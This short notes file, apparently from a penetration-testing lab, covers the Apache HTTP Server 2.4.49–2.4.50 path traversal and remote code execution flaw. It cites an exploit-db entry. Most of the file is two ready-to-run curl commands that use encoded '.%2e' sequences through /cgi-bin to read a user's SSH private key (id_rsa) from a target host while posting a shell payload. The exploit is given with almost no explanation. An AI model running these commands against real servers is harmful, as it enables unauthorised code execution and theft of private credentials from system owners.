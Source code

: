 # Apache HTTP Server 2.4.49 - 2.4.50 - Path Traversal & Remote Code Execution (RCE)

## Enumerate
- phpinfo.php


https://www.exploit-db.com/exploits/50512

```
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; whoami" "http://192.168.231.201/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/alfred/id_rsa"
```

```
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; whoami" "http://192.168.231.201/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/alfred/.ssh/id_rsa"
```
